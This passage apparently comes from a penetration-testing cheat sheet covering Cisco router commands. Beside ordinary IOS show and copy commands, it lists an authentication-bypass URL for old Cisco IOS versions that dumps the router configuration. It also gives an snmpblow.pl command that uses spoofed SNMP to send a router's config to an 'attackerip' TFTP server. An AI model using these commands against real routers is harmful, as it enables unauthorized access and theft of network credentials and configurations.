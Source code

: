    <tr>
      <td style="text-align:left">#show running-config</td>
      <td style="text-align:left">Config loaded in mem</td>
    </tr>
    <tr>
      <td style="text-align:left">#show startup-config</td>
      <td style="text-align:left">Config loaded at boot</td>
    </tr>
    <tr>
      <td style="text-align:left">#show ip interface brief</td>
      <td style="text-align:left">Interfaces</td>
    </tr>
    <tr>
      <td style="text-align:left">#show interface e0</td>
      <td style="text-align:left">Detailed interface info</td>
    </tr>
    <tr>
      <td style="text-align:left">#show ip route</td>
      <td style="text-align:left">Routes</td>
    </tr>
    <tr>
      <td style="text-align:left">#show access-lists</td>
      <td style="text-align:left">Access lists</td>
    </tr>
    <tr>
      <td style="text-align:left">#terminal length 0</td>
      <td style="text-align:left">No limit on output</td>
    </tr>
    <tr>
      <td style="text-align:left">#copy running-config startup-config</td>
      <td style="text-align:left">Replace run w/ start config</td>
    </tr>
    <tr>
      <td style="text-align:left">#copy running-config tftp</td>
      <td style="text-align:left">Copy run config to TFTP Svr</td>
    </tr>
  </tbody>
</table>### Cisco IOS 11.2-12.2 vulnerability 

```text
http:// ip /level/ 16-99 /exec/show/config
```

## SNMP

Must start TFTP server 1st

```text
./snmpblow.pl -s srcip -d rtr_ip -t attackerip -f out.txt
snmpstrings.txt
```

### Windows running services
